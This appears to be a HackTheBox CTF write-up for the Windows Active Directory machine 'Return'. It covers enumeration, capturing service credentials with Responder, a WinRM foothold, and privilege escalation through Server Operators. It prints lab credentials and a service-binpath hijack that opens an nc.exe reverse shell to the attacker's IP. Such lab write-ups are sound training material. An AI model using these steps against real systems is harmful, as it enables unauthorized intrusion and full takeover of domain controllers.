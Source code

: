 ```yaml
---
title: "Return"
date: 2024-01-23
categories: HTB
tags: ["ctf", "return", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


OS: Windows(AD)
Difficulty: Easy

## Credentials

| username    | password     | hash | source |
| ----------- | ------------ | ---- | ------ |
| svc-printer | 1edFg43012!! |      |        |

## Enumeration

### Nmap

```sh
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-31 05:45:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### 80-HTTP

![screenshot](/assets/images/return1.png)

![screenshot](/assets/images/return2.png)

Add my IP address to Server Address

```sh
sudo responder -I tun0
```

![screenshot](/assets/images/return3.png)

### SMB

![screenshot](/assets/images/return4.png)

```sh
smbclient.py '[domain]/[user]:[pass]@[ip/host]' -k -no-pass - Kerberos auth

smbclient 'return.local/svc-printer:1edFg43012!!' -k -no-pass -Kerberos auth
```

#### ADMIN$

![screenshot](/assets/images/return5.png)

## Foothold

Evil-winrm as svc-printer

![screenshot](/assets/images/return6.png)

## Privilege Escalation

runphp.cmd

![screenshot](/assets/images/return7.png)

![screenshot](/assets/images/return8.png)

### Server Operators 

There may be others of interest, but Server Operators jumps out immediately. [This group](https://ss64.com/nt/syntax-security_groups.html#:~:text=A%20built%2Din%20group%20that,and%20shut%20down%20the%20computer.) can do a lot of things:

- A built-in group that exists only on domain controllers. 
- By default, the group has no members. 
- Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer. 
- Default [User Rights](https://ss64.com/nt/ntrights.html): Allow log on locally: SeInteractiveLogonRight Back up files and directories: SeBackupPrivilege Change the system time: SeSystemTimePrivilege Change the time zone: SeTimeZonePrivilege Force shutdown from a remote system: SeRemoteShutdownPrivilege Restore files and directories SeRestorePrivilege Shut down the system: SeShutdownPrivilege

```sh
# install windows binaries
sudo apt-install windows-binaries
# copy nc to pwd
sudo cp /usr/share/windows-resources/binaries/nc.exe .
```

Upload nc.exe to the target device

![screenshot](/assets/images/return9.png)

```sh
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\programdata\nc.exe -e cmd 10.10.14.7 443"
```

![screenshot](/assets/images/return10.png)

![screenshot](/assets/images/return11.png)
